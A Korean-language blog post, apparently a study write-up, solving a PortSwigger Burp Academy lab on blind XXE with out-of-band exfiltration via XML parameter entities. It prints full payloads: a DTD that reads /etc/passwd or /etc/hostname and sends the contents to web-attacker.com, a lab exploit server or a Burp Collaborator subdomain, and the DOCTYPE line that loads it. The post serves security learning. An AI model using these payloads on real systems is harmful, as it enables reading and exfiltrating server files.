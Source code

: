 ```yaml
---
layout: post
title: "Burp Academy 문제풀이 - Blind XXE with out-of-band interaction via XML parameter entities"
categories: [보안취약점, Burp Academy]
tags: [보안취약점, Burp Academy, XXE]
toc: true
---
```


# 개요
- Blind XXE 문제인데 XML의 파라메터 엔터티(Parameter Entity)를 통해 out-of-band 통신을 발생시키는 예제로 보인다. 
- 문제 주소: https://portswigger.net/web-security/xxe/blind/lab-xxe-with-out-of-band-exfiltration


- 블라인드 XXE 설명 주소: https://portswigger.net/web-security/xxe/blind
- 난이도: PRACTITIONER (중간)

# 문제분석
- 이전 문제들과 마찬가지로 "Check stock" 기능을 통해 XML 을 삽입할 수 있다. 
- `/etc/hostname` 파일의 내용을 얻어내면 된다. 
- 내용을 HTTP 응답으로 직접확인할 수는 없다. Blind XXE를 응용해야 한다. 
```
This lab has a "Check stock" feature that parses XML input but does not display the result.

To solve the lab, exfiltrate the contents of the /etc/hostname file.

Note
To prevent the Academy platform being used to attack third parties, our firewall blocks interactions between the labs and arbitrary external systems. To solve the lab, you must use the provided exploit server and/or Burp Collaborator's default public server.
```


# 준비
## exploit server
이 문제부터는 exploit server 가 등장한다. 다음과 같이 특정 경로 요청에 대해 어떤 응답을 보낼지를 설정할 수 있다. 

![exploit server](/images/burp-academy-exploit-servser.png)



# 1차 시도 
우선 Parameter 엔터티로 `/etc/hostname` 을 접근할 수 있는지 확인해본다. 
```xml
<!ENTITY % file SYSTEM "file:///etc/hostname">
<stockCheck>
	<productId>%file;</productId>
	<storeId>1</storeId>
</stockCheck>
```

안된다. XML 파싱에러가 발생했다. 
```
HTTP/1.1 400 Bad Request
Content-Type: application/json; charset=utf-8
Connection: close
Content-Length: 19

"XML parsing error"
```

## 2차 시도 
XXE 설명 페이지를 보면 다음 페이로드가 소개되어 있다. 

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">
%eval;
%exfiltrate;
```

- `&#x25;` 는 HTML 디코드하면 `%` 이다. 
- /etc/passwd의 내용을 file 이라는 이름의 파라메터 엔터티에 저장해둔다. 
- eval이라는 이름의 파라메터 엔터티에 다이내믹 선언한 exfiltrate 라는 파라메터 엔터티의 값을 저장해둔다. 
- exfiltrate 엔터티는 HTTP 요청을 공겨자의 웹 서버에 file 엔터티의 내용을 URL 쿼리 스트링으로 함께 보낸다. 

이 것을 다음과 같이 바꿔서 보냈다. 

```xml
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'https://exploit-0ae8003e0426eb73c02fa82501bd002e.exploit-server.net/?x=%file;'>">
%eval;
%exfiltrate;
```

보안 이유 때문에 Entity 는 사용할 수 없다는 응답이 돌아왔다. 
```
HTTP/1.1 400 Bad Request
Content-Type: application/json; charset=utf-8
Connection: close
Content-Length: 47

"Entities are not allowed for security reasons"
```

## 3차 시도 
여기서 부터는 잘 모르겠다. 정답을 봤다. 

# 해답
이 문제를 풀려면 Burp Collaborator와 통신이 가능한 Burp Suite Professional 버전이 필요하다. 

- STEP 1. Burp Suite Professional에서 Burp Collaborator 탭으로 이동한다. 
- STEP 2. "Copy to clipboard" 를 이용해 유니크한 Burp Collaborator 페이로드를 복사해둔다. 
- STEP 3. 다음 DTD 파일의 BURP-COLLABORATOR-SUBDOMAIN 을 복사한 페이로드로 바꾼다. 

```xml 
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://BURP-COLLABORATOR-SUBDOMAIN/?x=%file;'>">
%eval;
%exfil;
```

- STEP 4. exploit server 로 이동해서 위의 DTD 파일을 응답 Body 부분에 저장한다. 
- STEP 5. 유저가  "Check stock" 버튼을 눌렀을 때의 POST 요청 바디 부분을 다음과 같이 바꾼다. 

```xml 
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "YOUR-DTD-URL"> %xxe;]>
```

- STEP 6. Burp Suite Professional에서 Burp Collaborator 탭에서 "Poll now" 를 클릭한다. 
- STEP 7. 조금 기다리면 Burp Collaborator 서버로 통신한 DNS와 HTTP 통신이력이 보인다. HTTP 통신에 /ect/hostname 파일의 내용이 보인다. 

전체적인 구성도를 그려보면 다음과 같다고 생각된다.

![구성도](/images/burp-academy-xxe-5-diagram.png)